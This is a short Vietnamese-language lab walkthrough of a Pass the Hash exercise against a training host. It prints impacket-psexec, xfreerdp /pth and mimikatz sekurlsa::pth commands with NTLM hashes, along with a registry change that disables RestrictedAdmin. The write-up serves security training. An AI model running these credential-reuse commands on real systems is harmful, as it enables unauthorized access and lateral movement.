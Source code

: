 <h1>Pass the Hash (PtH)</h1>

![image](https://github.com/user-attachments/assets/012719e1-7e93-4f25-abc8-7e32cab18ffa)

![image](https://github.com/user-attachments/assets/af9ac63d-9f5f-49d8-aeda-ba25d7beef05)

Như mọi mở đầu, dùng `nmap -sV 10.129.20.51` để check:

![image](https://github.com/user-attachments/assets/31050af0-2150-44a4-b0a4-db538dfe6780)

Có khá nhiều thứ thú vị nhưng phải đi theo câu hỏi đã, hint của câu là dùng impacket:

![image](https://github.com/user-attachments/assets/345f991d-9ab9-4689-af4f-3a196ef779a2)

Nên tôi dùng `impacket-psexec administrator@10.129.20.51 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`:

![image](https://github.com/user-attachments/assets/0fb81d18-0b91-4f65-8d7b-b699f6f771d5)

![image](https://github.com/user-attachments/assets/f9960266-2b30-4241-ba4e-fdb622b9ffb9)

![image](https://github.com/user-attachments/assets/20fe27e0-d31f-426b-8bf5-5b9d79b299df)

Câu tiếp tôi dùng `xfreerdp  /v:10.129.20.51 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453`:

![image](https://github.com/user-attachments/assets/c214d3a1-5911-47f0-bd9e-127aa3e9d67d)

Cái này là lỗi ở lý thuyết có nhắc qua rồi:

![image](https://github.com/user-attachments/assets/9b054bee-c891-4ef6-be69-7d15c3942292)

Quay lại impacket kia và chạy `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` để DisableRestrictedAdmin:

![image](https://github.com/user-attachments/assets/6063e6b2-3a8a-49d5-8f43-4b4c748cacd8)

![image](https://github.com/user-attachments/assets/28ed3c66-9263-4bb9-a2a2-319067599895)

Và câu tiếp theo:

![image](https://github.com/user-attachments/assets/efac62cc-b326-4789-b62b-460e26729102)

Đang táy máy thì lỡ tay đọc luôn file của julio với hash của bài cho:)):

![image](https://github.com/user-attachments/assets/df741b11-6935-4fdf-9b35-96df8ec7df3c)

![image](https://github.com/user-attachments/assets/cb923b3c-5b5a-4b06-b6b7-c60a6673d1a1)

![image](https://github.com/user-attachments/assets/2d811fe1-f089-457d-b384-9e05f828d9c2)

Sau khi tìm được david hash là c39f2beb3d2ec06a62cb887fb391dee0 thì tôi dùng `mimikatz.exe privilege::debug "sekurlsa::pth /user:david /NTLM:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit` để vào:

![image](https://github.com/user-attachments/assets/c7544efa-d508-4b0f-a10c-8d0e7e34b331)








